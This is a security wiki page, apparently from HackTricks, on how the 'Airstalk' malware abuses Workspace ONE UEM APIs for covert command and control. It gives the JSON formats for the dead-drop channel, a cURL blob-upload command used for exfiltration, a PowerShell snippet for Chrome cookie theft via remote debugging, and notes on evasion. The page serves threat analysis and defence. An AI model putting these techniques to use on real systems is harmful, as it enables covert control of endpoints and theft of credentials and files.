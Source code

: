 # Workspace ONE / AirWatch Security

{{#include ../banners/hacktricks-training.md}}

## Abusing UEM APIs for Covert C2 and Exfiltration

Workspace ONE UEM (formerly AirWatch) exposes management REST APIs that can be abused as a covert command-and-control (C2) channel from compromised endpoints. A recent malware family ("Airstalk") demonstrates how to use device custom attributes as a dead-drop for commands/results and MAM blob uploads for bulk exfiltration, blending with legitimate enterprise UEM traffic.

### Dead-drop C2 via device custom attributes

Implants authenticate to the UEM API and write Base64-encoded JSON messages into device custom attributes, then poll the same attributes to receive operator commands. Two JSON layers are used:

- Outer attribute wrapper (what is written to the device record):

```json
{
  "Name": "<CLIENT_UUID>",
  "Value": "<BASE64(SERIALIZED_MESSAGE)>",
  "Uuid": "<CLIENT_UUID>",
  "Application": "services.exe",
  "ApplicationGroup": "services"
}
```

- Inner protocol envelope (serialized then Base64 in Value):

```json
{
  "method": "<MESSAGE_TYPE>",
  "uuid": "<CLIENT_UUID>",
  "sender": "<SENDER_ROLE>"
}
```

Notes:
- CLIENT_UUID is read locally (e.g., via WMI) and reused for Name/Uuid to appear as device-scoped metadata.
- sender is set to "client" for host→UEM writes. When polling, the implant decodes and ignores messages with sender=="client" to deconflict self-writes.
- Example message types used by observed implants: CONNECT, CONNECTED, ACTIONS, RESULT. A .NET variant adds PING, DEBUG, and MISMATCH (version control).

Polling logic (abstract):
- Periodically list/read device custom attributes through the devices API surface.
- For each attribute with Name/Uuid equal to the local device UUID, Base64-decode Value and parse JSON.
- If sender!="client" and method matches expected state, process task payload and respond via a new attribute write using RESULT.

### Bulk data exfiltration via MAM blobs

Large artifacts (screenshots, cookie dumps, archives) are POSTed to the Mobile Application Management blob upload endpoint. The returned blob handle/id is then referenced inside a RESULT message over the attribute channel, avoiding large payloads in attributes and blending into sanctioned file flows.

Endpoint highlights used by implants:
- devices API: used to write/read custom attributes for C2 dead-drop
- MAM blobs upload: /api/mam/blobs/uploadblob (multipart upload, returns a blob identifier)

Minimal example (pseudocode cURL with placeholder headers) to upload a file and return its blob id:

```bash
curl -sk -X POST "https://<uem-host>/api/mam/blobs/uploadblob" \
  -H "Accept: application/json" \
  -H "Content-Type: multipart/form-data" \
  -H "Authorization: <UEM_AUTH_TOKEN_OR_BASIC>" \
  -H "aw-tenant-code: <TENANT_CODE>" \
  -F "file=@/path/to/artifact.bin" \
  | jq -r '.BlobId // .blobId // .id'
```

Return the extracted blob id inside the C2 RESULT message written to the device custom attributes.

### C2 multiplexing with UUID suffixes (channel separation)

The .NET variant of the implant appends suffixes to the outer UUID/Name to segregate flows:
- -kb: base channel (connection establishment, beaconing)
- -kr: task polling + results
- -kd: debug/telemetry uploads (e.g., periodic log exfiltration ~10 min)

### Tasks commonly implemented by observed implants

- Screenshot capture (uploaded via blob; RESULT carries blob id)
- Chromium-based browser targeting (Chrome/Edge/Island): enumerate profiles, export bookmarks/history, and exfiltrate specific profile data
- Cookie theft via DevTools Remote Debugging (see next section)
- Directory listing and targeted file exfiltration
- Uninstall/exit (PowerShell variant removed Scheduled Task persistence; .NET variant sets an uninstall flag in attributes and exits)

### Chromium cookies exfil via Remote Debugging

Abuse the DevTools protocol by launching the browser with remote debugging and a chosen profile, then programmatically export all cookies to disk for exfiltration via the UEM blob channel. High-level example:

```powershell
# Pick a profile (e.g., "Default") and a temp output path
$Profile = "Default"
$Out = "$env:TEMP\\cookies.json"

# Start Chrome with remote debugging enabled for the target profile
Start-Process -FilePath "$env:ProgramFiles\\Google\\Chrome\\Application\\chrome.exe" \
  -ArgumentList "--remote-debugging-port=9222 --profile-directory=$Profile"

# Connect to ws://127.0.0.1:9222/json/version → DevTools WebSocket, then:
# 1) Runtime.evaluate or Network.getAllCookies to retrieve cookies
# 2) Write cookies to $Out and upload via /api/mam/blobs/uploadblob
```

### Evasion and persistence behaviors seen in the wild

- Authenticode-signed .NET binaries with legitimate-looking metadata; in one case the certificate was later revoked. Implants also manipulated PE header timestamps; signing timestamp countersignatures revealed the real build timeline.
- PowerShell variant used a Scheduled Task for persistence and removed it on uninstall to reduce forensic footprint; .NET variant had no built-in persistence and used an "uninstall" attribute flag before exiting.

## References

- [Unit42: Suspected Nation-State Threat Actor Uses New Airstalk Malware in a Supply Chain Attack](https://unit42.paloaltonetworks.com/new-windows-based-malware-family-airstalk/)
- [Workspace ONE UEM REST APIs (Docs Landing)](https://developer.vmware.com/docs/21725/workspace-one-uem-rest-apis/)
- [Red Canary: Chrome cookie theft via DevTools/remote debugging](https://redcanary.com/blog/threat-intelligence/google-chrome-app-bound-encryption/)

{{#include ../banners/hacktricks-training.md}}
